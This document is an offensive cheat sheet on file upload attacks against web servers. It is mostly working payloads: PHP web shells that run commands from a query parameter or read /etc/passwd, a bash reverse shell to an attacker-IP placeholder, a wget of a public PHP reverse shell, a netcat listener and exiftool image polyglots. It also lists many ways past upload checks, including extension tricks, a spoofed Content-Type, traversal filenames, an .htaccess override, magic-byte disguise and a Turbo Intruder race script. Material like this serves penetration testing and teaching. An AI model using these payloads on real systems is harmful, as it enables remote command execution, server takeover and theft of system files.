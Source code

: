 ```yaml
---
title: File Upload Attack
desc: 
tags: [Burp, Exiftool, File, Netcat, Reverse, Shell, Upload, Web]
alts: [OS-Command-Injection, Reverse-Shell]
render_with_liquid: false
---
```


## 1. Prepare a Payload

1. **Create a Web Shell**

    For example, the file name is "exploit.php".

    Simply showing the result of 'whoami'.

    ```php
    <?php echo system('whoami'); ?>
    ```

    This shows the content of "/etc/passwd".

    ```php
    <?php echo file_get_contents('/etc/passwd');  ?>
    ```

    Or you can use more useful payload with query parameter e.g. "/exploit.php?cmd=whoami"

    ```php
    <?php echo system($_GET['cmd']); ?>
    ```

2. **Create a Reverse Shell**

    ```php
    <?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'"); ?>
    ```

    Or download the payload from GitHub.

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit some variables in the payload
    $ip = '<attacker-ip>'
    $port = 4444
    ```

    You need to open listener for getting a shell.

    ```sh
    nc -lvnp 4444
    ```

    After uploading it, reload the page in which the payload uploaded e.g. "/upload/shell.php".

3. **Create a Polyglot using Exiftool**

    It's assumed that you have an arbitrary image file.

    ```sh
    exiftool -Comment="<?php system('ls'); ?>" example.png
    exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.png
    exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
    ```

<br />

## 2. Bypass the File Validation Techniques when Uploading the Payload

Upload the payload in somewhere e.g. the profile picture's upload form.  
In most cases, you need to bypass the file validation.

1. **Bypass the File Extension Validation**

    If you cannot upload the payload with ".php", modify the extension.

    ```
    exploit.php
    exploit.php3
    exploit.php4
    exploit.php5
    exploit.phtml
    exploit.php.
    exploit.php.jpg
    exploit.php.png
    exploit%2Ephp
    exploit.p.phphp
    exploit.php%00.jpg
    exploit.php%0d%0a.jpg
    exploit.pHp
    exploit.gif.pHp
    exploit.jpg.php
    exploit.png.php
    ```

2. **Bypass Content-Type Validation**

    If you cannot upload with "Content-Type: application/x-php", try changing it to **"Content-Type: image/jpeg"**.

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename="exploit.php"
    Content-Type: image/jpeg

    <?php echo system($_GET['cmd']); ?>

    ------abcdefghijk
    ```

3. **Change the File Name to Directory Traversal**

    You may be able to edit the upload location by changing the **"filename"**.

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
    Content-Type: application/x-php

    <?php echo system($_GET['cmd']); ?>

    ------abcdefghijk
    ```

4. **Override the Server Configuration**

    You may be able to override the ".htaccess".

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename=".htaccess"
    Content-Type: text/plain

    AddType application/x-httpd-php .abc

    ------abcdefghijk
    ```

5. **Camouflage the Exploit as Image File**

    You may be able to bypass exif_imagetype() of PHP by editing the contents in the payload as image file.

    ```php
    // exploit.php

    GIF32a
    <?php echo system($_GET['cmd']); ?>
    ```

6. **Bypass the Filter (Client-Side & Server-Side)**

    If the target website uses filter JavaScript around file uploading, you may be able to bypass it by using Burp Suite.

    ```sh
    On Burp Suite, click "Proxy" tab and "Options".

    # Client-Side
    1. Navigate to "Intercept Client Requests" section, click on the top line ("File extension"...) then click "Edit".
    2. The popup will open.
    3. On the popup, find and remove the "|^js$" in the "Match condition", then save the filter.

    # Server-Side
    1. Navigate to "Intercept Server Requests" section and check "Intercept responses based on...".

    # ----------------------------------------------

    1. Turn the intercept on.
    2. On browser, press Ctrl+F5 (hard refresh) to reload the page.
    3. If you found the filtering file (.js), drop it.
    ```

7. **Race Conditions using Turbo Intruder**

    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=10,)

        request_post = '''POST /avatar/upload HTTP/1.1
    Host: vulnerable.com
    ...
    ...
    Connection: close

    ------abcdefghi
    Content-Disposition: form-data; name="avatar"; filename="exploit.php"
    Content-Type: application/x-php

    <?php echo file_get_contents('/etc/passwd');  ?>

    ------abcdefghijk--

    '''

        request_get = '''GET /files/avatars/exploit.php HTTP/1.1
    Host: vulnerable.com
    ...
    ...
    Connection: close


    '''

        engine.queue(request_post, gate='race1')
        for i in range(5):
            engine.queue(request_get, gate='race1')


        engine.openGate('race1')
        engine.complete(timeout=60)
        


    def handleResponse(req, interesting):
        table.add(req)
    ```

<br />

## 3. Other Tips

1. **Magic Numbers**

    ```sh
    # PNG
    89 50 4E 47 ...

    # JPEG
    FF D8 DD E0 ...

    # JPG
    FF D8 FF EE ...
    ```